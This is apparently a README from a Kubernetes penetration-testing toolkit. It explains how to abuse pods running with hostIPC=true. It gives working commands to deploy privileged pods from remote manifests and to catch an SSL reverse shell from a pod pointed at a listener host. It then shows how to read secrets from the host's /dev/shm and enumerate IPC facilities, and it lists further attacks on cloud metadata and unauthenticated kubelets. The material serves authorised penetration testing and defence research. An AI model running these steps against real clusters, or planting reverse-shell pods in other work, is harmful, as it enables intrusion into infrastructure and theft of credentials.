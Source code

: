 # Bad Pod #7: hostIPC

If you only have `hostIPC=true`, you most likely can't do much. If any process on the host or any processes within another pod is using the host’s inter-process communication mechanisms (shared memory, semaphore arrays, message queues, etc.), you'll be able to read/write to those same mechanisms. The first place you'll want to look is `/dev/shm`, as it is shared between any pod with `hostIPC=true` and the host. You'll also want to check out the other IPC mechanisms with `ipcs`.

* **Inspect /dev/shm** - Look for any files in this shared memory location. 
* **Inspect existing IPC facilities** – You can check to see if any IPC facilities are being used with `/usr/bin/ipcs`. 


## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Inspect /dev/shm - Look for any files in this shared memory location.](#inspect-devshm---look-for-any-files-in-this-shared-memory-location)
  - [Look for any use of inter-process communication on the host](#look-for-any-use-of-inter-process-communication-on-the-host)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl exec -it hostipc-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/[RESOURCE_TYPE]/hostipc-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostipc-exec-[RESOURCE_TYPE]      
kubectl exec -it hostipc-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostipc-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostipc/[RESOURCE_TYPE]/hostipc-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete pod hostipc-exec-pod
kubectl delete cronjob hostipc-exec-cronjob
```

# Post exploitation 

## Inspect /dev/shm - Look for any files in this shared memory location

For a super simple POC, I have created a secret file in /dev/shm on the worker node
```
root@k8s-worker:/# echo "secretpassword=BishopFox" > /dev/shm/secretpassword.txt
```


From the hostIPC pod, we can list all files in /dev/shm
```
root@hostipc-exec-pod:/# ls -al /dev/shm/
total 4
drwxrwxrwt 3 root root  80 Dec 22 15:11 .
drwxr-xr-x 5 root root 360 Dec 21 20:01 ..
drwx------ 4 root root  80 Sep  9 20:10 multipath
-rw-r--r-- 1 root root  25 Dec 22 15:11 secretpassword.txt
```

Check out any interesting files
```
root@hostipc-exec-pod:/# cat /dev/shm/secretpassword.txt
secretpassword=BishopFox
```

## Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact
If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
* https://docs.docker.com/engine/reference/run/#ipc-settings---ipc
* https://opensource.com/article/20/1/inter-process-communication-linux
